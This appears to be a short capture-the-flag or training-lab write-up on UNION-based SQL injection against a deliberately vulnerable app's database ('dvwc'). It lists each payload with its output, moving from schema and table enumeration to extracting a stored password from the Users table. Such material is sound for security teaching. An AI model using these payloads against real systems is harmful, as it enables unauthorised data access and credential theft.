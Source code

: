 # SQL-Injection Advanced

information_schema: table_schema, table_name

' OR 1=1 UNION SELECT table_schema FROM information_schema.tables -- 
-> dvwc

' OR 1=1 UNION SELECT table_name FROM information_schema.tables WHERE table_schema = 'dvwc' -- 
-> Chatrooms, PoMessages, Users

' OR 1=1 UNION SELECT column_name FROM information_schema.columns WHERE table_name = 'Users' -- 
-> id, surname, prename, birthday, username, pwd, createdAt, updatedAt

' OR 1=1 UNION SELECT pwd FROM Users WHERE username = 'unionguy' -- 
-> sQL-iNJeCtion4EvERYonE
